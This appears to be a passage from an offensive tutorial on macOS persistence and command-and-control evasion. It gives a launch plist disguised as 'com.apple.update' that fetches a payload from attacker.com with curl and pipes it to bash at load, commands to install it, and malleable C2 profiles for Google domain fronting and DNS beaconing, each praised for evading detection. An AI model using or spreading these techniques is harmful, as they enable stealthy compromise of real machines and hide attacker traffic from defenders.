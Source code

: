 Launch Daemon for Persistence
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.apple.update</string>
    <key>ProgramArguments</key>
    <array>
        <string>/usr/bin/curl</string>
        <string>-s</string>
        <string>http://attacker.com/macos_payload</string>
        <string>|</string>
        <string>/bin/bash</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
</dict>
</plist>
```
Install it:
```bash
mv com.apple.update.plist ~/Library/LaunchAgents/
launchctl load ~/Library/LaunchAgents/com.apple.update.plist
```
✅ Runs automatically at system startup
✅ Blends in with system processes


---

3. C2 Evasion & Malleable C2 Profiles

To avoid detection, we’ll mimic legitimate traffic and use domain fronting.

Stealth C2 (Google Fronting)
```C
http-get {
    set uri "/search?q=update";
    client {
        header "Host" "google.com";
        header "User-Agent" "Mozilla/5.0 (Windows NT 10.0)";
    }
}
```
Why?
✅ Looks like normal Google traffic
✅ Hard to block

DNS C2 (Bypass Firewalls)
```C
dns-beacon {
    set beacon "A";
    set maxdns "240";
    set dns_idle "8.8.8.8";
}
```
Why?
✅ Bypasses corporate firewalls
✅ Low and slow beaconing
